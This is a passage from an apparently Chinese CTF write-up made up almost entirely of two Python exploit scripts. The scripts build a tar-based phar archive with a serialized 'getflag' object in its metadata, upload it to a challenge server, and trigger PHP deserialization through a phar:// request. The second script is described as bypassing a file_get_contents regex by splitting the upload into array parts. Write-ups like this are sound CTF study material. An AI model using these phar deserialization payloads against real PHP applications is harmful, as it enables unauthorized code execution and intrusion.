 ```python
    data = {"0": open('app.tar.gz', 'rb').read()}
    requests.post(url, data=data)

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
    data = {"0": 'phar://tmp/a.txt'}
    requests.post(url, data=data)
```

## 脚本2 - 绕过file_get_contents正则

只是少了gzip的部分。

```python
import shutil
import tarfile
import os.path
import gzip
import requests


def make_tarfile(output_filename, source_dir):
    os.system(f'tar -cf app.tar {source_dir}')


def init():
    for f in ['app.tar', 'app.tar.gz', '.phar']:
        try:
            shutil.rmtree(f)
        except OSError:
            pass
    os.mkdir('.phar')
    open('.phar/.metadata', 'w').write("""a:2:{i:0;O:7:"getflag":0:{}i:0;N;}""")


if __name__ == "__main__":
    init()
    make_tarfile('app.tar', '.phar')

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
    file = open('app.tar', 'rb').read()
    data = {"0[]": [
        file[:1],
        file[1:]
    ]} # 数组会把每个都写入的, 分段内容
    requests.post(url, data=data)

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
    data = {"0": 'phar://tmp/a.txt'}
    res = requests.post(url, data=data)
    open('f.html', 'wb').write(res.content)
```
